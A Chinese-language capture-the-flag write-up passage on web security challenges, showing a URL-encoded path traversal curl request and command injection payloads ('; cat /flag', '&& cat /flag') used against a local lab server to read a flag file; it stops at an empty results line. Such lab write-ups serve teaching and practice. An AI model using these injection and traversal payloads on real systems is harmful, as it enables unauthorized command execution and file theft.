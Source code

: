 循环。

---

我在discord群组上寻找相关的内容，就是找答案。

果真就发现了。

我们的文件目录结构如下图所示：

多出来一些东西：

![image-20241101120756275](.\2.1.2 Web Security.assets\image-20241101120756275.png)

所以我们可以利用这个多出来的目录，进行绕过`./`。

---



```bash
$ curl -v challenge.localhost:80/fortunes%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fflag
```



# 3-cmdi-1

思路很简单

实现如下即可。使用url编码

```
ls -l  ; cat /flag
```

八仙过海各显神通，各有各的写法。

## exp

```
$ curl -v http://challenge.localhost:80/?directory=%20%3B%20cat%20%2Fflag
```

# 4-cmdi-2

## 描述

题目不允许使用;了。那就使用&&号码。

对如下内容url编码

```
/challenge && cat /flag
```

结果：
